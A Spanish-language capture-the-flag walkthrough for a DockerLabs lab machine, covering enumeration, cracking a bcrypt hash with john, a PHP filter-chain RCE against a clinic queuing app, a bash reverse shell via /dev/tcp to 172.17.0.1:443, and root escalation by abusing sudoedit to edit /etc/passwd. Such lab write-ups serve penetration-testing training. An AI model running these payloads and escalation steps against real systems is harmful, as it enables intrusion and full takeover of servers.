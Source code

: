 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 

![image](https://github.com/user-attachments/assets/ceb080c3-198f-466f-aeb2-f36ca68675c2)

hacemos un gobuster y nos da algunos que son llamativos

![image](https://github.com/user-attachments/assets/6db3b8c6-b51c-4cfd-b77c-1d350db89b1f)

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico

![image](https://github.com/user-attachments/assets/008ad910-5b3d-4d83-ad24-c07126d5aaf7)

al /backup nos descargamos el zip y lo descomprimimos. nos da:

![image](https://github.com/user-attachments/assets/2f6d5bbe-ee79-48d9-869b-f85a7a42c6fe)

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![image](https://github.com/user-attachments/assets/feec5145-33e9-4e84-93c6-54fc19abe3f1)


utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 

![image](https://github.com/user-attachments/assets/f63b8c97-7470-4e27-87af-f8f4135137af)

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
![image](https://github.com/user-attachments/assets/baf96a99-91d2-4ac7-bdae-66322e792093)

 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel

![image](https://github.com/user-attachments/assets/85c0234e-5902-4120-a4b1-8bac02376020)

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 

![image](https://github.com/user-attachments/assets/449a178d-5102-40ea-b9a4-132c9bff8eb9)

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![image](https://github.com/user-attachments/assets/8c00970d-f30f-4413-8051-73320aed657d)


> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos
![[dockerlabs/dificil/queuemedic/codigo2.png]]


y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)
![[dockerlabs/dificil/queuemedic/codigo3.png]]

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos
![[dockerlabs/dificil/queuemedic/conexion.png]]

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro
![[jessica.png]]

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 
![[sudoedit.png]]

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 
![[dockerlabs/dificil/queuemedic/root1.png]]
![[pasos1.png]]
colocamos su root y somos root!
![[suroot.png]]
muchas gracias! 
